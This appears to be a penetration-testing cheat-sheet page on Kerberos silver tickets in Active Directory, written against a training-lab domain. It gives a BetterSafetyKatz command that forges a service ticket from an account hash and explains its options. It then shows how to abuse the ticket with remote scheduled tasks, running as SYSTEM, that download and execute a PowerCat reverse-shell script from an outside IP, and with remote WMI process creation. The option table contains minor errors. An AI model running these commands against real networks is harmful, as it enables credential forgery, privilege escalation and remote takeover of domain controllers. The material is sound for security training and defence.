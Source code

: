 # Silver Ticket

Silver ticket is signed and encrypted by the hash of **service** account which makes it a valid **TGS** ticket.

## Create The Ticket

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden 
/User:Administrator /domain:dollarcorp.moneycorp.local
/sid:S-1-5-21-719815819-3726368948-3917688648 
/target:dcorp-dc.dollarcorp.moneycorp.local
/service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 
/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/target:</td><td>Target server FQDN</td></tr><tr><td>/service:</td><td>The SPN name of service for which TGS is to be created</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt</td><td>ptt: inject ticket to current process</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

## Abusing Services

### HOST

HOST Service permission allows to create scheduled tasks in remote computers\
The Silver ticket needs to be created with the NT Hash of the target machine

```bash
# Check you have permissions 
schtasks /S dcorp-dc.dollarcorp.moneycorp.local

#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1''')'"

#Run created schtask now
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "Job"
```

### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

<pre class="language-bash"><code class="lang-bash">#Check you have permissions 
<strong>Invoke-WmiMethod -class win32_operatingsystem -ComputerName dcorp-dc
</strong>
# Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$Program"

gwmi -class win32_operatingsystem -ComputerName dcorp-dc  
</code></pre>
